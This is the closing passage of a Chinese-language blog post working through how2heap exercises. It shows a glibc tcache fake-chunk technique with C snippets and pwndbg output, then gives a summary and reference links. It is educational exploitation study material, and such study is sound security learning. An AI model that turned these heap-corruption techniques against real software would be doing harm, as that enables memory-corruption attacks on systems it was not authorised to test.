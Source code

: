 将 size 位设为 0x40。接下来用第一块 fake chunk 内的伪区域地址覆盖我们的指针 fake_chunk，且还需注意与此块关联的内存地址必须是 16 字节对齐的。

```
pwndbg> x/4gx fake_chunks
0x7ffffffedd50: 0x0000000000000009      0x0000000000000040
0x7ffffffedd60: 0x00007ffffffeddc8      0x0000000000f0b6ff
```

``` c
a = &fake_chunks[2];
```

```
pwndbg> p/x a
$1 = 0x7ffffffedd60
```

接下来释放这个被覆盖的指针。

``` c
free(a);
```

此时的 tcachebins：

```
pwndbg> bins
tcachebins
0x40 [  1]: 0x7ffffffedd60 ?— 0x0
```

之后的 malloc 会返回 `fake_chunks[1]` 的区域，也就是 `fake_chunks[2]` 的地址：

```
malloc(0x30): 0x7ffffffedd60
```

# 总结

根据参考文章走了一遍 how2heap 的流程，收获还是蛮多的。之前一看堆题就头大，静下心来刷一遍 how2heap 之后发现如果只是利用的话并不麻烦。但是想要更深入了解原理的话还得多看源代码。接下来就是做做题巩固一下知识，继续深入理解源代码了。

# 参考文章

[linux程序的常用保护机制](https://introspelliam.github.io/2017/09/30/linux%E7%A8%8B%E5%BA%8F%E7%9A%84%E5%B8%B8%E7%94%A8%E4%BF%9D%E6%8A%A4%E6%9C%BA%E5%88%B6/)

[通过 how2heap 复习堆利用 (一）](https://xz.aliyun.com/t/2582)

[【技术分享】how2heap总结-下](https://www.anquanke.com/post/id/86809)

[3.1.9 Linux 堆利用（四）](https://firmianay.gitbooks.io/ctf-all-in-one/doc/3.1.9_heap_exploit_4.html)

[glibc内存管理ptmalloc源代码分析.pdf](https://paper.seebug.org/papers/Archive/refs/heap/glibc%e5%86%85%e5%ad%98%e7%ae%a1%e7%90%86ptmalloc%e6%ba%90%e4%bb%a3%e7%a0%81%e5%88%86%e6%9e%90.pdf)

[4.13 利用 _IO_FILE 结构](https://firmianay.gitbooks.io/ctf-all-in-one/doc/4.13_io_file.html)

[4.14 glibc tcache 机制](https://firmianay.gitbooks.io/ctf-all-in-one/doc/4.14_glibc_tcache.html)

[Tcache Attack](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/glibc-heap/tcache_attack-zh/)
